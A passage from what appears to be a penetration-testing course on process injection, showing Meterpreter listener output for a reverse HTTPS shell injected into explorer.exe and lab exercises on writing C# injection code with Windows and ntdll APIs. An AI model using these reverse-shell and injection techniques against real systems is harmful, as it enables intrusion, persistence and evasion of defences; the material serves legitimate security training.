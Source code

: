 After compiling the project, we'll configure a Meterpreter listener and execute our process, injecting the shellcode. If all goes well, we will obtain a reverse shell running inside **explorer.exe**, as shown:

```
msf5 exploit(multi/handler) > exploit

[*] Started HTTPS reverse handler on https://192.168.119.120:443
[*] https://192.168.119.120:443 handling request from 192.168.120.12; (UUID: abrlqwbz) Staging x64 payload (207449 bytes) ...
[*] Meterpreter session 1 opened (192.168.119.120:443 -> 192.168.120.12:51449) at 2019-10-14 09:02:37 -0400

meterpreter > getpid
Current pid: 4804
```

> Listing 14 - Meterpreter shell from within explorer.exe

The process ID indicates that the Meterpreter shell is indeed running inside **explorer.exe**.

We were able to launch our Meterpreter shellcode directly inside **explorer.exe**, which means that even if the original process is terminated, the shell will persist.

We've successfully injected arbitrary shellcode into another process. Good.

### Resources

Some of the labs require you to start the target machine(s) below.

Please note that the IP addresses assigned to your target machines may not match those referenced in the Module text and video.

Process Injection - Client01 - VM #2

**Labs**

1. Instead of hardcoding the process ID of **explorer.exe**, which cannot be known remotely, use the [Process.GetProcessByName](https://docs.microsoft.com/en-us/dotnet/api/system.diagnostics.process.getprocessesbyname?view=netframework-4.8) method to resolve it dynamically. Then update the C# code to perform process injection. What is the argument type required by _Process.GetProcessByName_?

Answer

2. Process injection with _VirtualAllocEx_, _WriteProcessMemory_, and _CreateRemoteThread_ is considered a standard technique, but there are a few others to consider.

The low-level native APIs _NtCreateSection_, _NtMapViewOfSection_, _NtUnMapViewOfSection_, and _NtClose_ in **ntdll.dll** can be used as alternatives to _VirtualAllocEx_ and _WriteProcessMemory_.

Create C# code that performs process injection using the four new APIs instead of _VirtualAllocEx_ and _WriteProcessMemory_.

Which API creates the input for the first argument of _NtMapViewOfSection_?

Answer

### 8.2. DLL Injection
